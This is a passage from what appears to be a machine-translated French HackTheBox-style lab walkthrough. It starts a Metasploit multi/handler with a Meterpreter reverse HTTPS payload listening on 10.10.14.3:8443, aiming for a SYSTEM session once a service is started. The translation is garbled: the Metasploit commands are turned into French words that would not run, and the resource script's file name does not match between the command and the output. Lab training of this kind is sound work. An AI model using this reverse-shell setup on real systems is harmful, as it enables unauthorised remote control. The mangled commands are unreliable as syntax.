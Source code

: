 Lancez Metasploit en utilisant le fichier Resource Script pour précharger nos paramètres.

Lancer Metasploit avec Resource Script

```
dsgsec@htb[/htb]$ sudo msfconsole -r gestionnaire.rc

          . .
  .

       dBBBBBBb dBBBP dBBBBBBP dBBBBBBb . o
        ' dB' BBP
     dB'dB'dB' dBBP dBP dBP BB
    dB'dB'dB' dBP dBP dBP BB
   dB'dB'dB' dBBBBP dBP dBBBBBBB

                                    dBBBBBP dBBBBBb dBP dBBBBP dBP dBBBBBBP
           . . dB' dBP dB'.BP
                              | dBP dBBBB' dBP dB'.BP dBP dBP
                            --o-- dBP dBP dBP dB'.BP dBP dBP
                              | dBBBBP dBP dBBBBP dBBBBP dBP dBP

                                                                     .
                 .
         o Pour aller audacieusement là où il n'y en a pas
                             shell est passé avant

        =[ metasploit v6.0.9-dev ]
+ -- --=[ 2069 exploits - 1123 auxiliaires - 352 messages ]
+ -- --=[ 592 charges utiles - 45 encodeurs - 10 nops ]
+ -- --=[ 7 évasion ]

Astuce Metasploit : utilisez la commande resource pour exécuter des commandes à partir d'un fichier

[*] Traitement de handler.rc pour les directives ERB.
ressource (handler.rc)> utiliser exploit/multi/handler
[*] Utilisation de la charge utile configurée generic/shell_reverse_tcp
ressource (handler.rc)> définir PAYLOAD windows/x64/meterpreter/reverse_https
PAYLOAD => windows/x64/meterpreter/reverse_https
ressource (handler.rc)> définir LHOST 10.10.14.3
LHOST => 10.10.14.3
ressource (handler.rc)> définir LPORT 8443
LPORT => 8443
ressource (handler.rc)> exploiter
[*] Démarrage du gestionnaire inverse HTTPS sur https://10.10.14.3:8443

```

#### Démarrage du service

Démarrez le service et nous devrions obtenir une session en tant que `NT AUTHORITY\SYSTEM`.

Démarrage du service

